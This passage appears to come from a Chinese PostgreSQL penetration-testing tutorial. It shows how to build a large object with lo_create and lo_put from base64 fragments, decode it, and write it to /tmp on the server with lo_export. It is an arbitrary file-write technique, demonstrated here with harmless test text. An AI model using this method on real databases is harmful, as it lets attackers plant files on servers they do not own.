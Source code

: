 或者还可以用 lo\_put 在后面拼接进行写入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>select lo_create(11116);<br>select lo_put(11116,0,'dGVzdDEyM');<br>select lo_put(11116,9,'zQ1Ng==');<br><br>select lo_from_bytea(11141,decode(encode(lo_get(11116),'escape'),'base64'));<br>select lo_export(11141,'/tmp/test.txt');<br>SELECT lo_unlink(11141);<br>``` |

[![](assets/1710209150-f0f451c02b4588f63fba8d5453ef5a7d.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/45.png)

[![](assets/1710209150-da55ff6ed08299a964cc377d60a4d151.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/46.png)

[![](assets/1710209150-4e4f66aef1ead528f53e313a106ed7dc.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/47.png)
